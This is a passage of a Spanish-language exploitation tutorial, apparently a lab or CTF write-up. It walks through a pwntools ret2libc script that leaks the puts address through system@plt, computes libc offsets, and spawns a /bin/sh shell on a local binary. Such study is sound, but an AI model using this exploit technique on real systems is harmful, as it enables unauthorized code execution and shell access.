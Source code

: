 ```python

# objdump -D ./myapp | grep "system"
# 0000000000401040 <system@plt>:
#   401040:       ff 25 da 2f 00 00       jmpq   *0x2fda(%rip)        # 404020 <system@GLIBC_2.2.5>
#   40116e:       e8 cd fe ff ff          callq  401040 <system@plt>

system_plt = p64(0x401040)
main = p64(0x40115f)
got_puts = p64(0x404018)

payload = junk + pop_rdi + got_puts + system_plt + main # system("whoami")

print(p.recvline())
p.sendline(payload)
leak_puts = u64(p.recvline().strip()[7:-11].ljust(8, "\x00".encode()))

log.info("Leaked puts address: %x" % leak_puts)

libc_leaked = leak_puts - 0x68f90
log.info("Leaked libc address: %x" % libc_leaked)
bin_sh = p64(libc_leaked + 0x161c19)

payload = junk + pop_rdi + bin_sh + system_plt

p.recvline()
p.sendline(payload)

p.interactive()
```

La idea aqui seria de hacer una llamad a nivel de systema para arastrar la direccion de **puts**. El objetivo detras de esto es poder leakear la direccion para
poder computar la direccion de  **libc**. Esto no permiteria computar una direccion donde este una string de `/bin/sh`. 

Esto se hace poniendo una direccion memoriaa una llamada de systema (esto nos dara un error)

```python
import os

os.system("whoami")
#Output
root

os.system("0x7fbac32bda8")
#Output
Error Not found.
```

y desde este error, aprovechar de recuperar la direccion de puts. Desde aqui podriamos encontrar todas la direcciones necessarias para ejecutar los comandos que queremos.
Para encontrar las direcciones podemos usar la web de [nullbyte](https://libc.nullbyte.cat/?q=puts%3Af90&l=libc6_2.24-11%2Bdeb9u4_amd64), podemos encontrar todos
los offsets de los comandos que queremos como el offset de la direccion de `system` y de la string `/bin/sh` basada por la direccion de puts.
